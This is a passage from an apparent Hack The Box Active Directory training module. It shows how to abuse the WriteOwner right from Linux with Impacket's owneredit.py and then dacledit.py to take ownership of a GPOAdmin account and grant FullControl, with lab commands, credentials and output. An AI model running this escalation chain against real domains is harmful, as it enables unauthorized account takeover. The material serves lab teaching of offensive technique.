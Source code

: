 
# Abusing WriteOwner from Linux

From Linux, we can use [Impacket](https://github.com/SecureAuthCorp/impacket)'s [owneredit.py](https://raw.githubusercontent.com/ShutdownRepo/impacket/owneredit/examples/owneredit.py) python script. At the time of writing, the [pull request #1323](https://github.com/SecureAuthCorp/impacket/pull/1323) offering this tool is still being reviewed. `owneredit.py` has the following main command-line arguments:

- `-action` defines the operation to perform. It can be `-action read` or `-action write`. In this case, we will set it to `read`. If no argument is set, the default is `read`.
- `-target`, `-target-sid`, or `-target-dn` respectively define the `sAMAccountName`, `Security Identifier`, or `Distinguished Name` of the object from which the `DACL` must be retrieved and parsed.
- `-new-owner`, `-new-owner-sid`, or `-new-owner-dn` respectively define the `sAMAccountName`, `Security Identifier`, or `Distinguished Name` of the object to set as the new owner of the target object.

Let us download the tool directly from [ShutdownRepo/Impacket](https://github.com/ShutdownRepo/impacket/blob/owneredit/examples/owneredit.py) and save it in the same folder where we have `dacledit.py` and execute the attack:

#### Downloading and Using owneredit.py

Granting Rights and Ownership

```shell
anas21@htb[/htb]$ wget -q https://raw.githubusercontent.com/ShutdownRepo/impacket/owneredit/examples/owneredit.py -O ./shutdownRepo/impacket/examples/owneredit.py
anas21@htb[/htb]$ python3 examples/owneredit.py -action write -new-owner pedro -target GPOAdmin -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Current owner information below
[*] - SID: S-1-5-21-1267651629-1192007096-1618970724-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] OwnerSid modified successfully!
```

Once the `owner` is changed, the `Pedro` account does not have (yet) enough access rights to conduct a password reset. However, the ownership of the target object allows for editing its `DACL` and grant the necessary rights. Let us grant `Pedro` the access right to perform a password reset. `dacledit.py` allow us to modify a `DACL` and add the following predefined rights: `FullControl`, `ResetPassword`, `WriteMembers`, and `DCSync`, but we can also use the `-rights-guid` option to specify any other extended access right manually. `FullControl` is the default access right (use the help menu to get more information). Let us grant `Pedro` `FullControl` over the `GPOAdmin` account:

#### Changing User Rights with dacledit.py

Granting Rights and Ownership

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal pedro -target GPOAdmin -action write -rights FullControl -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20230519-095451.bak
[*] DACL modified successfully!
```
